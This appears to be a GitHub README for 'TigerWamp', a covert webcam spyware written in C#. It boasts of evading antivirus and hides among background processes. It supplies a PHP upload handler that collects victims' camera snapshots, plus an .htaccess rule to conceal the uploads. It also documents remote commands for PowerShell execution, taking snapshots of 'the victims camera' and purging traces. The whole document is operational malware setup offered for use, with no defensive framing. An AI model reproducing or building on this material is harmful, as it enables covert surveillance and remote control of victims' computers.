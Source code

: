 # TigerWamp Spyware
TigerWamp is a prototype camera spyware written in c# inspired by Pegasus!

At the time of publication, it was undetected by Norton, MalwareBytes, and VirusTotal.
It runs as an invisible WPF application that hides in the middle of the background processes list.

To use it you need your own webserver with directory "uploads/" and a php file "upload.php" with contents:

```php
<?php
$uploads_dir = './uploads/'; //Directory to save the file that comes from client application.

if ($_FILES["file"]["error"] == UPLOAD_ERR_OK) {
    $tmp_name = $_FILES["file"]["tmp_name"];
    $name = $_FILES["file"]["name"];
    move_uploaded_file($tmp_name, "$uploads_dir/" . base64_encode($_SERVER['REMOTE_ADDR'] .".{" . time() . "}") . ".zip");
    echo "Ok.";
}
?> 
```
The spyware takes snapshots from the webcam (opencv cam 0). The camera photos can be trigger remotely with the 'cam' command. It will try to connect to a remote server on tcp/5000 (Change as needed). It also supports powershell command execution (if your good). More features coming soon.

# Recommended
Add this to your .htaccess file:
```.htaccess
RedirectMatch 404 ^/uploads/?$
```
It will make sure that only the owners of the webserver can access the content.

# Required for operation
1. Make sure you have your own http server (with php) that will accept files. Change this I don't want your data!!!
2. Make sure that you have your own server that can accept connections. Currently it uses my linode server IP!

# Command Docs
Use `exe` command for powershell.
Commands `ls` and `cd` are natively supported.
Use `cam` command for taking snapshots of the victims camera and upload to ftp.
Use `purge` command to remove the spyware. (Still may be tracable)
Use `disconnect` command to disconnect.
